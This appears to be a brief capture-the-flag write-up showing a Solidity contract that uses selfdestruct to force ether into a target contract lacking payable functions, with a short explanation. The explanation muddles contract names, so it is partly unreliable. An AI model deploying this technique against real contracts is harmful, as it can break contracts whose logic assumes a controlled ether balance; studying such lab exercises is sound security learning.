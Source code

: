 ```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract ForceAttak {
    address public targetAddress;

    constructor (address _targetAddress) public {
        targetAddress = _targetAddress;
    }

    function attack() payable public {
        selfdestruct(payable(targetAddress));
    }
}
```

As Attack doesnot implement receive and fallback payable functions, there is a possible way to send ether to a contract that does not accept ether. This is possible via a selfdestruct function call:

Let's assume there is a contract ForceAttack that has some ether present in it.
Also, there is a contract Attack.
Contract ForceAttack calls the selfdestruct(address_of_contract_Attack) function.
This process sends all ether present in contract x to contract y.

Call the attack function with some ether and it will self destruct the ForceAttack contract and send all the ethers from ForceAttack to Force contract.